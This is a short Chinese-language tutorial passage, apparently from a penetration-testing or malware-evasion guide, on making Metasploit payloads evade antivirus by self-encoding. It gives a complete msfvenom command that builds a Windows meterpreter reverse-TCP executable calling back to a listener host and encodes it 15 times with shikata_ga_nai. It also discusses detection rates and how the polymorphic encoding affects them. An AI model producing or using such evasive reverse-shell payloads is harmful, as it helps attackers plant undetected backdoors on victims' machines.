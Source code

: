 ![image-20220526190959477](./images/202205261909529.png)

### msf自编码免杀(VT查杀率48/67)

使用`msfvenom --list encoders`可查看所有编码器。

评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器。

使用`x86/shikata_ga_nai`生成payload，参数`-i`为编码次数，使用`-b`参数去掉payload中的空字符：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -b "\x00" -i 15  -f exe -o /mnt/hgfs/Share/payload2.exe
```

![image-20220526191328018](./images/202205261913186.png)

由于shikata_ga_nai编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。
